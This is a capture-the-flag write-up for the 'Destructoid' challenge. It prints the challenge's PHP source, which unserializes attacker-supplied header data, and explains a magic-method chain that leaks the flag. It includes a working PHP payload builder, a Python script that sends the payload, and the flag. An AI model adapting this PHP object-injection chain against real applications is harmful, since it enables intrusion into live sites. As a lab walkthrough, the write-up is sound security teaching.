

# Destructoid

## Description
https://www.youtube.com/watch?v=zwpDmwKxulQ

## Files
No files.

## Methodology
We somehow have to leak the source code of the webapp. After a bit of fuzzing we get it.

https://destructoid.chal.imaginaryctf.org/index.php?source

```php
 <?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}
```

Clearly there is an `unserialize` method used which is our entrypoint of the exploit. We have to send our payload in the HTTP header but sending `HTTP_X_PAYLOAD` won't work. Read the php docs and you will know we have to send the payload in `X-PAYLOAD` header.

## Exploit
We will chain the magic methods to execute what we want.

`__destruct` and `__wakeup` will get called immediately upon unserialization.

`__construct` will get called when we create an object from `X`.

`__toString` will get called when we `echo` an object.


We start with `Y` and set `$secret` to `$this` so as to echo itself (class Y by `__wakeup` function). Then the `__toString` of Y will be called and set `printflag` to `true` and create `new X` which we don't care about (this trigger the printing of `No!`). The in the unserialization payload we also set some arbitrary variable to `new X("flag")`. This create new object of `X`, we already have `$printflag` set to `true` and we get the flag.

## Code
### `unser.php`
```php
<?php

class X {
    function __construct($cleanup) {
        $this->cleanup = $cleanup;
    }
}

class Y {
    public function __construct() {
        $this->secret = $this;
        $this->mmmmmm = new X("flag");
    }
}

echo serialize(new Y());
```

### `exploit.py`
```python
import requests
import subprocess
import base64

result = subprocess.run(['php', 'unser.php'], stdout=subprocess.PIPE)
pay = base64.b64encode(result.stdout)
pay = pay.decode()

h = {'X-PAYLOAD': pay}

r = requests.get('https://destructoid.chal.imaginaryctf.org/', headers=h)
print(r.content.decode())
```

## Loot


## Flag
**ictf{d3s3r14l1z4t10n_4nd_d3struct10n}**